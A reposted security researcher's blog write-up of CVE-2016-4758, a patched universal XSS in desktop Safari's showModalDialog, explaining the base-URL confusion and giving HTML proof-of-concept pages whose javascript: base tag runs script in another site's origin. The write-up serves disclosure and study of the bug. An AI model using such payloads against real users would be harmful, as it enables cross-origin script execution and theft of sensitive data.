

# CVE-2016-4758: UXSS in Safari's showModalDialog - sevck - 博客园

> 原文：[`www.cnblogs.com/sevck/p/6014794.html`](https://www.cnblogs.com/sevck/p/6014794.html)

I would like to share about details of Safari's UXSS bug(CVE-2016-4758). This bug was fixed in Safari 10.

[`support.apple.com/en-us/HT207157`](https://support.apple.com/en-us/HT207157)

```
WebKit
Available for: OS X Yosemite v10.10.5, OS X El Capitan v10.11.6, and macOS Sierra 10.12 Impact: Visiting a maliciously crafted website may leak sensitive data
Description: A permissions issue existed in the handling of the location variable. This was addressed though additional ownership checks.
CVE-2016-4758: Masato Kinugawa of Cure53
```

FYI, Mobile Safari is not vulnerable because it does not have the `showModalDialog` method.

## Preconditions for Attack

To attack using this bug, we need two conditions:

1.  The target page navigates to the relative URL using JavaScript. (e.g. `location="/"`,`window.open("/","_blank")`)
2.  That navigation is done after the completion of the page loading.

I created the page that satisfies it:

[`vulnerabledoma.in/safari_uxss_showModalDialog/target.html`](https://vulnerabledoma.in/safari_uxss_showModalDialog/target.html)

```
<script> function go_top(){
 location="/index.html";
} </script>
<button onclick=go_top()>Top Page</button>
```

This page's only purpose is that navigates to [`vulnerabledoma.in/index.html`](https://vulnerabledoma.in/index.html) when the user click the "Top Page" button.
I think there are pages like that everywhere. But using this bug, we can do XSS attack in this conditions.

## The Bug

Now, let's use the `showModalDialog` method.The following page only opens the target page in a modal dialog:[`l0.cm/safari_uxss_showModalDialog/example.html`](https://l0.cm/safari_uxss_showModalDialog/example.html)

```
<script> function go(){
 showModalDialog("https://vulnerabledoma.in/safari_uxss_showModalDialog/target.html");
} </script>
<button onclick=go()>go</button>
```

What will happen when we click the "Top Page" button in the modal dialog? Needless to say, we will go to [`vulnerabledoma.in/index.html`](https://vulnerabledoma.in/index.html). But Safari was different. Surprisingly, Safari navigated to https://l0.cm/index.html. Obviously, Safari mistakes the parent window's base URL for the modal window's base URL.

(Side Note: This behavior exists in only the JavaScript navigation APIs. For example, the `<a>` tag and `xhr.open("GET",[URL])` used the correct URL. )

## Developing XSS attacks

According to [html5sec.org #42](https://html5sec.org/#42), Safari allows to set the `javascript:` URL to the base tag. So, I thought that I might be able to XSS if I set the `javascript:` URL to the base tag in the parent page.

And my assumption was correct. This is final PoC:

[`l0.cm/safari_uxss_showModalDialog/`](https://l0.cm/safari_uxss_showModalDialog/)

```
<!DOCTYPE html>
<html>
<head>
<base href="javascript://%0Aalert%28document.domain%29%2F/">
</head>
<body>
<script> function go(){
 showModalDialog("http://vulnerabledoma.in/safari_uxss_showModalDialog/target.html");
} </script>
<button onclick=go()>go</button>
</body>
</html>
```

If it goes well, you can see an alert dialog when you click "Top Page" button, like the following screen shot:



Yay!

## Conclusion

I wrote about Safari's UXSS bug. I reported this bug on June 15, 2015\. This bug was living in WebKit for over a year after I reported.

If I find interesting bug, I'll share again :D Thanks!Posted by [Masato Kinugawa ](https://plus.google.com/117154691211413633534 "author profile")at [4:14 AM](http://mksben.l0.cm/2016/09/safari-uxss-showModalDialog.html "permanent link") referer:http://mksben.l0.cm